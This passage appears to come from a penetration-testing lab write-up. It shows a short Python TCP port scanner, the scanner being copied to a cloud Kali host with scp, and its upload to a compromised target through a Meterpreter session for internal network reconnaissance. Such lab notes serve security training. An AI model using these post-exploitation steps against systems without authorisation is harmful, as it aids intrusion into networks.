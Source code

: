 Additional enumerations steps should include exploring:
- Source code
- Database
- Etc

For now, moving onto network scanning.

### Scanning the Network
Assume nmap isn't available in the container.

Create python port scanning script 
```hlt:1
kali@kali:~$ cat -n netscan.py
01  import socket
02  import ipaddress
03  import sys
04
05  def port_scan(ip_range, ports):
06      for ip in ip_range:
07          print(f"Scanning {ip}")
08          for port in ports:
09              sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
10              sock.settimeout(.2)
11              result = sock.connect_ex((str(ip), port))
12              if result == 0:
13                  print(f"Port {port} is open on {ip}")
14              sock.close()
15
16  ip_range = ipaddress.IPv4Network(sys.argv[1], strict=False)
17  ports = [80, 443, 8080]  # List of ports to scan
18
19  port_scan(ip_range, ports)
```

Transferring netscan.py Script to Cloud Kali Instance
```
kali@kali:~$ scp ./netscan.py kali@34.203.75.99:/home/kali/
kali@34.203.75.99's password: 
netscan.py                                100%  462     2.0KB/s   00:00 
```

Uploading Our netscan.py Script to Target
```
meterpreter > upload /home/kali/netscan.py /netscan.py
[*] Uploading  : /home/kali/netscan.py -> /netscan.py
[*] Uploaded 559.00 B of 559.00 B (100.0%): /home/kali/netscan.py -> /netscan.py
[*] Completed  : /home/kali/netscan.py -> /netscan.py
```

Network Interfaces on Target
- `172.18.0.1/16`
- `172.30.0.1/16`

Narrowing scope to /24 network. 
